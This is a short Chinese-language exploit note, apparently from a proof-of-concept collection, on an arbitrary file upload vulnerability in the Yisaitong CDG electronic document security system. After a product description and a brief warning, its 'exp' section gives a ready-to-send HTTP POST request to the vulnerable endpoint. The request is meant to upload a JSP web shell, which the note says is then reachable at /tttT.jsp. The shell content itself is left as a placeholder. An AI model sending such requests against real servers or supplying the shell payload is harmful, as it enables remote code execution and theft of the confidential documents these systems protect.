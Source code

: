 

# 亿赛通 /UploadFileFromClientServiceForClient 任意文件上传漏洞

## 介绍

亿某通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业校心重要数据资产,对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。

近日监测发现某通电子文档安全管理系统任意文件上传漏洞，攻击者可通过发送特制请求来利用此漏洞，成功利用此漏洞可在目标系统上执行任意代码。

对此，建议广大用户做好资产自查以及预防工作，以免遭受黑容攻击。

## 影响范围

其他未确认版本需自查



## exp

直接bp发包即可，shell访问地址：https://x.x.x.x/tttT.jsp
```
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: xxx:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Content-Length: 1

shell内容
```

